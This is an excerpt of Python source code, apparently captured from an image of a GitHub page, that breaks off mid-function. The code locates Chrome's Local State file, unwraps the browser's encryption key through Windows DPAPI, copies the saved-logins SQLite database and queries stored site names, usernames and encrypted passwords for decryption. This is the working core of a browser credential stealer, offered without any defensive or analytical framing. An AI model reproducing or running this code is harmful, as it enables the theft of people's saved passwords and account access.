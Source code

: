 ```
    return decryptor.update(ciphertext)


def rcipher(key):
    cipher = Cipher(algorithms.AES(key), None, backend=default_backend())
    return cipher


def dpapi(encrypted):
    import ctypes
    import ctypes.wintypes

    class DATA_BLOB(ctypes.Structure):
        _fields_ = [('cbData', ctypes.wintypes.DWORD),
                    ('pbData', ctypes.POINTER(ctypes.c_char))]

    p = ctypes.create_string_buffer(encrypted, len(encrypted))
    blobin = DATA_BLOB(ctypes.sizeof(p), p)
    blobout = DATA_BLOB()
    retval = ctypes.windll.crypt32.CryptUnprotectData(
        ctypes.byref(blobin), None, None, None, None, 0, ctypes.byref(blobout))
    if not retval:
        raise ctypes.WinError()
    result = ctypes.string_at(blobout.pbData, blobout.cbData)
    ctypes.windll.kernel32.LocalFree(blobout.pbData)
    return result


def localdata():
    jsn = None
    with open(os.path.join(os.environ['LOCALAPPDATA'], r"Google\Chrome\User Data\Local State"), encoding='utf-8', mode="r") as f:
        jsn = json.loads(str(f.readline()))
    return jsn["os_crypt"]["encrypted_key"]


def decryptions(encrypted_txt):
    encoded_key = localdata()
    encrypted_key = base64.b64decode(encoded_key.encode())
    encrypted_key = encrypted_key[5:]
    key = dpapi(encrypted_key)
    nonce = encrypted_txt[3:15]
    cipher = rcipher(key)
    return decrypt(cipher, encrypted_txt[15:], nonce)


class chrome:
    def __init__(self):
        self.passwordList = []

    def chromedb(self):
        _full_path = os.path.join(ADP, DBP)
        _temp_path = os.path.join(ADP, 'sqlite_file')
        if os.path.exists(_temp_path):
            os.remove(_temp_path)
        shutil.copyfile(_full_path, _temp_path)
        self.pwsd(_temp_path)
        
    def pwsd(self, db_file):
        conn = sqlite3.connect(db_file)
        _sql = 'select signon_realm,username_value,password_value from logins'
        for row in conn.execute(_sql):
            host = row[0]
```